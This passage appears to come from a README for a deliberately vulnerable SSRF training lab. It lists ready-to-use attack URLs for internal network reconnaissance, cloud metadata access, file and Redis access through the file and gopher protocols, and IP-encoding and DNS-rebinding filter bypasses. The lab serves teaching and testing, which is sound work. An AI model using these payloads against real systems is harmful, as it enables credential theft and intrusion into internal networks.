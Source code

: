 ## ⚔️ Exploitation Tools

### Automated Exploitation (`exploit_ssrf.py`)
```bash
python exploit_ssrf.py
```
Tests multiple attack vectors:
- Internal service enumeration
- Cloud metadata access
- Protocol-based attacks
- Bypass techniques
Validates security controls:
- Allowed URL testing
- Blocked protocol verification
- Private IP blocking
- Bypass attempt detection

## 🔬 Attack Scenarios

### 1. Internal Network Reconnaissance
```http
http://localhost:5000/vulnerable-proxy?url=http://192.168.1.1/
http://localhost:5000/vulnerable-proxy?url=http://10.0.0.1:8080/
```

### 2. Cloud Metadata Exploitation
```http
http://localhost:5000/vulnerable-proxy?url=http://169.254.169.254/latest/meta-data/
http://localhost:5000/vulnerable-proxy?url=http://metadata.google.internal/
```

### 3. Dangerous Protocol Attacks
```http
file:///etc/passwd                    # Local file read
gopher://127.0.0.1:6379/_INFO         # Redis exploitation
phar:///malicious.phar                # PHP deserialization
data:text/html,<script>alert(1)</script> # XSS injection
dict://127.0.0.1:11211/stats          # Service enumeration
```

### 4. Bypass Techniques
```http
http://0177.0.0.1:80/                 # Octal encoding
http://0x7f.0.0.1:80/                 # Hexadecimal encoding  
http://2130706433:80/                 # Decimal encoding
http://127.0.0.1.nip.io:80/           # DNS rebinding
http://[::]:80/                       # IPv6 bypass
```

## 🛡️ Defense Mechanisms
